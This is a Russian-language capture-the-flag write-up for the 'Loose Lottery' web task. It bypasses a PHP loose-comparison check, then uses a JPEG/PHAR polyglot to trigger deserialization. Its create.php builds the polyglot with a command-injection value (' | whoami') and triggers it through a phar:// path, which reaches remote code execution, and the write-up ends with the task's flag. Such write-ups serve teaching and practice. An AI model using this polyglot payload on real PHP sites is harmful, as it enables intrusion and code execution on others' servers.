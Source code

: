 # Loose Lottery

Я случайно перешёл по рекламе на этот сайт, но так и не смог выиграть. Может быть тебе повезёт больше.

## Hint:

1.Разработчик при создании сайта допустил много... неточностей.

# Difficulty
Medium

# Solve

1. Переходим на главную страницу, находим поле ввода и предложение угадать случайное число. Пробуем, не получается, ищем дальше. Находим подсказку в виде коммендария HTML. Это то число, которое нам необходимо было угадать, но увы оно слишком длинное для формы ввода...

   Далее стоит проявить внимание к деталям:
    - в ответе сервера видно, что приложение написано на PHP 5.6;
    - в названии фигурирует слово 'Loose';
    - найденное число примечательно тем, что при переводе его в 16-тиричную систему счисления получим 10 в 14-ой степени.

   Сопоставление всех деталей воедино должно привести нас к выводу, что тут может использоваться неточное сравнение при проверке введённого числа с целевым. В старых версиях PHP это позволяло получить положительный результат сравнения одного и того же числа, представленного в 10-ти и 16-тиричной системе.

   Переводим 72057594037927935 в 0xFFFFFFFFFFFFFF, пробуем пройти проверку, ура победа.

2. Второй этап таска начинается с предложения загрузить фото победителя лотереи. Для нас это означает наличие возможности загрузки файлов. Тестируем функционал и и получаем ограниечение по типу файла - "Only JPG files are allowed." Загрузив валидный файл, можем перейти на страничку просмотра информации о себе. Находим кнопку View Source Code, изучаем.

   Выделяем для себя главные моменты:
   - наличие магического метода "__destruct";
   - функция исполнения кода в деструкторе;
   - использование file_exists() к загруженному пользователем файлу.

   Кто знаком с данной уязвимостью сразу должен понять, что здесь возможна эксплуатация десериализации с использованием PHP архива(PHAR). Остальным же Google в помощь, главным маяком для вас должны быть выделенные ранее моменты, особенно 1 и 2.

   На данном этапе перед нами три задачи - обойти ограничение типа файлов; создать объект класса 'UserInfo' с необходимыми нам параметрами, поместить полезную нагрузку в PHAR. Последняя решается довольно просто. Уязвимость далеко не новая и инструкций по созданию подобного вредоносного архива навалом. Можно просто пойти на HackTricks:

   ```
   https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization
    ```

   Первая может быть решена путём использования файлов-полиглотов. В нашем случае применим Phar + JPG. Ну а в создании объекта класса нам поможет только изучение работы кода. У меня получился вот такой create.php:

   ```
   <?php

	class UserInfo
	{
	    public $name = 'foo';
	    public $info = 'bar';
	    public $photo = ' | whoami';
	    private $deletePhoto = true;
	}
	
	$phar = new Phar('shell.jpeg');
	$phar->startBuffering();
	$phar->addFromString('test.txt', 'text');
	$phar->setStub("\xFF\xD8\xFF\xFE\x13\xFA\x78\x74 __HALT_COMPILER(); ?>");
	
	$object = new UserInfo();
	$phar->setMetadata($object);
	$phar->stopBuffering();
	
	?>
	```

   Для того, чтобы файл считался легитимным, но полезная нагрузка по прежнему отрабатывала, необходимо добавить заголовочные байты JPEG в заглушку и поместить созданный нами объект класса в метаданные архива.

   Подробнее об этом коде можно прочитать туть:
   ```
   https://www.nc-lp.com/blog/disguise-phar-packages-as-images
	```

   Теперь нам только остаётся загрузить файл и обратиться к нему при помощи схемы нужной схемы:
   ```
   ?winner=phar://user.jpg/test.txt
	```

   Таким образом мы добились удалённого исполнения кода, осталось только просмотреть содержимое директории и прочитать драгоценный флаг.

# Flag

mctf{M41n_53cR37_E70gO_k4Z1n0}